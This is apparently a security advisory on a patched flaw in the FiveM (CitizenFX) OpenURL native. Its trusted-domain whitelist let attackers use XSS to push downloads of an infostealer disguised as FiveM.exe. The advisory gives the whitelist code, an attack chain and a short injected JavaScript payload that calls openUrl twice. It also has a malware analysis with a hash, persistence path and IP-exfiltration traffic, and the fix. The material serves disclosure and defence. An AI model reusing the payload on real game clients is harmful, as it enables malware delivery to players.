

# CitizenFX OpenURL Trusted Domain Abuse

> **Risk:** Low-Medium | **Status:** Patched  
> **Updated:** May 29th, 2026

## Overview

Threat actors exploited the trusted urls in the **OpenURL** native by leveraging XSS vulnerabilities and trusted domain behavior. By hosting malicious payloads on domains like **cfx.re**, attackers reduced user suspicion and increased execution rates through social engineering, resulting in confirmed system compromises.

## Root Cause

The vulnerability exists in `NUICallbacks_Native.cpp`, which handles native calls from the NUI system. The `openUrl` functionality uses a domain whitelist to determine whether a URL should trigger a permission prompt or bypass it entirely.

```cpp
static bool IsUrlTrusted(const std::string& url)
{
	static constexpr std::array<std::string_view, 6> trustedDomains = {
		"cfx.re", "fivem.net", "redm.net", 
		"rockstargames.com", "rsg.ms", "take2games.com"
	};
	static constexpr std::array<std::string_view, 1> untrustedSubdomains = {
		"users.cfx.re"
	};
	// ...
}
```

**Problem:** The trust model assumes domain ownership equals content safety, but fails to account for:
- Compromised trusted infrastructure
- Malicious uploads on legitimate domains

## Attack Chain

1. **XSS injection** in NUI context
2. **JavaScript execution** via malicious payload
3. **First `openUrl` call** to trusted domain (decoy)
4. **Second `openUrl` call** to malicious binary
5. **User manipulation** + execution
6. **System compromise**

## Discovery

The issue emerged through real world attacks and an infostealer campaign targeting multiple Cfx.re ecosystem servers. Attackers used:
- Backdoors
- HTML/JavaScript injection (XSS)
- Social engineering

The attack succeeded because users received no warnings when downloading from whitelisted domains, resulting in compromised systems.

## Attack Effectiveness

Attackers exploited XSS-vulnerable resources to inject payloads, often redirecting to legitimate Cfx.re support articles to appear credible.

```lua
local payload = """
	let m = this.closest('.chat-message'); 
	if(m) { m.style.opacity='0'; m.remove(); }
	invokeNative('openUrl', 'LINK_1');
	invokeNative('openUrl', 'LINK_2');
"""
```

The first `openUrl` opens a trusted article; the second silently downloads a malicious binary from `forums.cfx.re` without warnings. Attackers then force-closed the game and used social engineering to execute the file (disguised as `FiveM.exe`).

## Malware Analysis

| Field | Value |
|-------|-------|
| **Filename** | FiveM.exe (1.03 MB) |
| **Type** | PE32+ executable (GUI) x86-64 |
| **SHA-256** | `cecb0170c188799ae1090f08b82447d90a2c52395fa6c9833cb945a7bdb7adc1` |
| **Packed** | No (XOR string encryption) |
| **Signed by** | XRYUS TECHNOLOGIES LIMITED |

**Key Characteristics:**
- HTTP request to `api.ipify.org` for IP exfiltration
- XOR-encrypted strings for evasion
- Drops `Updater.exe` to `C:\Users\[USER]\AppData\Local\InstaIIer` (persistence)
- Initially undetected by most AV engines

### Network Traffic Summary

| Time | Type | Domain | Resolution |
|------|------|--------|------------|
| +27.16s | A | simplynetworking.eu | 188.114.96.3, 188.114.97.3 |
| +30.74s | CNAME | www.xboxab.com | staticassignments-dkazesgabrcgf6hv.b02.azurefd.net |
| +33.26s | CNAME | runtime.fivem.net | e344217.dscb.akamaiedge.net |
| +52.80s | CNAME | content.cfx.re | e344217.d.akamaiedge.net |
| +184.56s | A | api.ipify.org | (exfiltration) |


Basically, the most typical infostealer. Nothing more to be said about it :3

## Resolution

The Cfx.re engineering team patched this oversight by strengthening the domain trust validation. While it's not the most perfect patch as I believ in Zero Trust, it effectively mitigates the immediate risk by blocking known abuse patterns while allowing legitimate use cases to continue functioning.

The fix has been deployed to **Canary** with production rollout planned in the next few days.

```cpp
if (host == "forum.cfx.re" && parsed->pathname().find("/uploads/") == 0)
{
	return false;
}
```

## References



- [GitHub - NUICallbacks_Native.cpp](https://github.com/citizenfx/fivem/blob/cc6032bec3569c48097f708419f0690ace0bbe14/code/components/nui-core/src/NUICallbacks_Native.cpp)
- [GitHub - NUICallbacks_Native.cpp Patch](https://github.com/citizenfx/fivem/commit/bbca6820faac89b3a03627cde30ed3a271ec7b75)
- [VirusTotal Analysis](https://www.virustotal.com/gui/file/cecb0170c188799ae1090f08b82447d90a2c52395fa6c9833cb945a7bdb7adc1)
- [Behavior Report](./assets/behavior.json) | [PCAP](./assets/example.pcap)


[Back to Top](#citizenfx-openurl-trusted-domain-abuse)

